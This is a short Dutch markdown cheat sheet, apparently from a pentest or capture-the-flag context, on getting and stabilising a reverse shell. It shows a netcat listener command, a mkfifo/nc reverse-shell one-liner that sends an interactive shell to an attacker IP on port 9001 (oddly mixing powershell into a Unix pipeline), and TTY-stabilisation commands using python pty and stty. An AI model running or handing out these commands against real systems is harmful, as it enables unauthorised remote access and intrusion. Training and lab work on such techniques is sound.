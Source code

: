 ## Shell aanmaken

#### 1. Initialiseren

- Navigeren naar revshells.com
- Invoeren `<ip>` en port `9001`:
![alt text](image-1.png)
- Command uitvoeren in `CMD` tab:
    `nc -lvnp 9001`

#### 2. Identificeren van RCE exploit

- is het direct PHP shell executie of een andere vulnerability?
    - Niet zeker?:

        `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|powershell -i 2>&1|nc <ip> 9001 >/tmp/f`
    
    - Wel zeker?:

        Bijpassende commando erbij zoeken in tab `reverse`.

#### 3. Shell stabilizeren
**Commando's**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
stty raw -echo; fg
```

```
export TERM=xterm
```

**Handige guides**

https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet


